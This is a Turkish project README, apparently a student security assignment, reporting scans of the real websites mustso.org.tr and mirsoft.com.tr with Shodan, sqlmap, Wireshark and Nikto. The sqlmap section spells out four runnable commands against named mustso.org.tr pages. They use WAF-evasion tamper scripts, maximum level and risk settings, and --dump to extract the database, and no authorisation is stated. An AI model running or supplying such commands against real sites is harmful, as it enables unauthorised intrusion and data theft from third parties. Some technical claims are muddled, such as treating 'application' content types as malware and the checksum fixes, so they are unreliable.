 # Bilgi Sistemleri ve Güvenliği

Testler Sqlmap, Nikto, Nmap ve Wireshark üzerinden yapılmıştır.

# Nmap

https://www.shodan.io/
sitesinde yapılan taramada orta seviyeli olarak CVE-2014-4078 sonucu elde edildi ve ISS 8.5 kullanıldığı tespit edildi.

# Sqlmap

Sqlmapte yapılan testler sonucunda veritabanı olarak PostgreSQL kullanıldığı tespit edildi. Bunun yanı sıra yapılan testler sonucunda belirli çıktılar elde edildi.
WAF ile korunduğu için bazı sql injectionlar denenemedi bunlar txtler içinde gözükmektedir.

## Bu test aşamasında yazılan kodlar:

### 1-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --dump --batch

### 2-) python sqlmap.py -u "https://www.mustso.org.tr/Bas%C4%B1ndaBiz/Haber/tabid/17222/articleType/ArticleView/articleId/41518/Hayirli-Ramazanlar.aspx" --data="*"  --tamper="space2comment" --dbs --level 5 --risk 3 --dump --batch

### 3-)python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --tamper=space2comment --random-agent
#### Bu işlemde veritabanının PostgreSQL olduğu tespit edilmiştir!


### 4-) python sqlmap.py -u "https://www.mustso.org.tr/Default.aspx" --dbs --forms --crawl=2 --dbms=postgresql --tamper=space2comment --random-agent --time-sec=10 --level=5 --risk=3
#### Bu test yüksek fazda olmuştur ve 11 saate yakın bir süreçte tamamlanmıştır.

<br>

# Wireshark

## 1. Bad TCP
tcp.analysis.flags && !tcp.analysis.window_update && !tcp.analysis.keep_alive && !tcp.analysis.keep_alive_ack <br>
Bad TCP 54 tane taradımız ağ’da bulduk, bunları göremek için github linkin’den ulaşabilirsiniz


## 2. ARP (Address Resulation Protocol)
Tipik bir kullanım, bir IP adresinin (ör. 192.168.0.10) temel Ethernet adresine (ör. 01:02:03:04:05:06) eşlenmesidir. ARP bu adreslerin keşfedilme şekli olduğundan, genellikle bir konuşmanın başında ARP paketlerini görürsünüz.
<br>Aşağıda 9 tane (ARP) paketini mustso’dan yakaladık. ARP bizim için önemli bir bilgidir.


## 3. HTTP (Hypertext Transfer Protocol)
Çok fazla içerik türü(content types) En kiritik buldumuz kısımda Application buldundu kısımdır.
Kötü amaçlı ve yazılım ararken kullandığınız etiket içerik türü ve uygulama türüdür.
Genelikle application ile başlayanları kötü amaçlı olarak kullanabiliriz, onları indirip ondan sonra deneyebiliriz ve eğer o uygulama çalışırsa hack ve kötü amaçlı olarak kullanabilir, o yüzden http protokolü çok önemli bir protokoldür.


## 4. TCP (Transmission Control Protocol)
Varsayılan olarak, Wireshark'ın TCP ayırıcısı her TCP oturumunun durumunu izler ve sorunlar veya olası sorunlar algılandığında ek bilgi sağlar. Bir yakalama dosyası ilk açıldığında analiz her TCP paketi için bir kez yapılır. Paketler, paket listesinde göründükleri sırayla işlenir.

### Bad TCP - Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.
### HTTP Kısmında [Checksum Status: Unverified] olduğundan dolayı bu kısımları mustso’nun düzeltemsi gerekiyor.

### Nikto
#mustso.org.tr
##X-Frame-Options
Clickjacking, UI Redressing saldırılarına karşı önerilen ve tüm majör browserlar tarafından desteklenen bir güvenlik headerıdır.(Headerlar, Http'nin hem istek hem de yanıt mesajlarında yer alan ve mesajın meta bilgilerini taşıyan bölümlerdir.)Siber saldırgan, güvenli olarak görünen web sayfası kullanıcılarını güvensiz bir sayfaya yönlendirerek manipüle edebilir.
##X-XSS-Protection
Tarayıcıda XSS güvenlik filtresini devreye alarak bir XSS payloadının sayfada çalışmasını engelleyen headerdır.Bu zafiyet mustso.org.tr adresinin XSS ataklara karşı savunmasız olduğu anlamına gelir.
##X-Content-Type-Options
Content-Type headerı ile içeriğin tipi belirtilmediği taktırda tarayıcı içeriği analiz ederek, kaynağı en doğru biçimde görüntülemeye çalışır.Özellikle upload fonksiyonlarıyla beraber, sniffing işlemi bir takım tehlikeler arz edebilir.Örneğin zararsız addedilen bir text dosyası upload ettildiğini varsayalım.Bu text dosyası eğer HTML ve script tagları, Javascript kodları içeriyorsa ve biz bu yüklenen dosyayı tekrar kullanıcıya sunarken bir Content-Type belirtmiyorsak, tarayıcı bu sayfanın içeriğini analiz ederek bunun text/html tipinde bir dosya olduğuna karar verecektir ve bu sayfadaki kodlar çalışacaktır.
#mirsoft.com.tr
##Entry '/LinkClick.aspx?*'
robots.txtde bulunan 'mirsoft.com.tr//LinkClick.aspx?*' adresi yasaklanmamış 500 hata kodu döndürüyor yani sunucu tabanlı bir sıkıntı.
##robots.txt
Girişler manuel olarak denendi ve bir açığa ulaşılamadı.



